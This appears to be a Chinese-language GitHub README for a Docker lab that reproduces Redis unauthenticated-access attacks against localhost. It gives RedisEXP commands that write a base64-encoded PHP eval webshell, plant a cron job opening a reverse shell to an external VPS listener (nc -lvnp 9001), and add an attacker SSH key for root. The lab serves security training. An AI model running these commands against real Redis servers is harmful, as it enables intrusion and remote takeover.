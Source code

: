 # redis-unauth-hub
基于docker的redis未授权访问漏洞复现环境，用于复现 redis写计划任务、redis写webshell、redis写ssh公钥

你是否遇到过这样的烦恼：
1. redis未授权访问漏洞复现困难，dockerhub中的redis镜像仅有redis服务
2. 因为ubuntu的限制，redis无法写计划任务反弹shell
3. 复现redis写计划任务、redis写webshell、redis写ssh公钥需要分别搭建虚拟机，并安装相应服务

`redis-unauth-hub` 帮你解决

### 使用方法

#### 自行构建docker镜像

1. 下载/克隆 仓库到本地
```
git clone https://github.com/ajisai-babu/redis-unauth-hub
```
2. 构建docker镜像
```
docker build -t redis-unauth-hub .
```
3. 开启容器
```
docker run -d -p 10081:80 -p 10022:22 -p 16379:6379 redis-unauth-hub
```

备注：镜像默认开启了 22 、80、6379 端口，可以使用如下命令查看
```
docker inspect redis-unauth-hub
```

### 复现指南 
> 下列复现均是在本地（Kali Linux）搭建的docker环境

推荐工具 ： https://github.com/yuyan-sec/RedisEXP

1. 写webshell：
```
./RedisEXP -m shell -r 127.0.0.1 -p 16379 -rp /var/www/html -rf shell.php -s PD9waHAgZXZhbCgkX1JFUVVFU1RbY21kXSk7Pz4= -b
```
访问 http://127.0.0.1:10081/shell.php?cmd=phpinfo();

2. 写计划任务：

VPS服务器开启监听
```
nc -lvnp 9001
```
```
./RedisEXP -m cron -r 127.0.0.1 -p 16379 -L VPS服务器IP地址 -P 9001
```

3. 写ssh公钥
```
./RedisEXP  -m ssh -r 127.0.0.1 -p 16379 -u root -s "自己替换公钥字符串"
```
连接
```
ssh root@127.0.0.1 -p10022 -i id_rsa
```

### 为什么没有主从复制
本仓库提供的redis版本为3.2.11，没有主从复制功能
复现主从复制只需要拉取一个redis 4.x 或 5.x 版本的镜像即可复现，无需其他服务，如
```
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server　
```
